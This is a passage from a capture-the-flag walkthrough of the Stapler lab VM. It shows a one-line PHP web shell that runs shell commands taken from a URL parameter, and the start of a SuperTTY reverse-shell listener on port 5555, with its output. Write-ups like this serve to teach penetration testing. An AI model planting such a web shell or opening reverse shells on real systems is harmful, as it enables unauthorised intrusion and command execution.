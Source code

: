 ![phpinfo](/assets/images/stapler-ctf-walkthrough/phpinfo.png)

With PHP execution now possible, I re-used the same query to create a command executor (`<?php echo shell_exec($_GET["e"]); ?>`), which would allow system commands to be executed, but didn't provide an interactive shell.

## Low Privilege Shell
Now that I had a way to execute system commands via the command executor, I started a listener using SuperTTY (https://github.com/bad-hombres/supertty):

```shell_session
root@kali:~/stapler# supertty --port 5555
 (                                        )                  
 )\ )                     *   )  *   ) ( /(          )    )  
(()/(  (          (  (  ` )  /(` )  /( )\())   )  ( /( ( /(  
 /(_))))\ `  )   ))\ )(  ( )(_))( )(_)|(_)\   /(( )\()))\())
(_)) /((_)/(/(  /((_|()\(_(_())(_(_())_ ((_) (_))((_)\((_)\  
/ __(_))(((_)_\(_))  ((_)_   _||_   _\ \ / / _)((_) (_)  (_)
\__ \ || | '_ \) -_)| '_| | |    | |  \ V /  \ V /| || () |  
|___/\_,_| .__/\___||_|   |_|    |_|   |_|    \_/ |_(_)__/   
         |_|                                                 
         (c) Bad Hombres 2017

[+] Starting a reverse listener on port: 5555
[+] Got terminal: xterm-256color
[+] Got terminal size (68 rows, 180 columns)
[+] Setting up local terminal.....
```
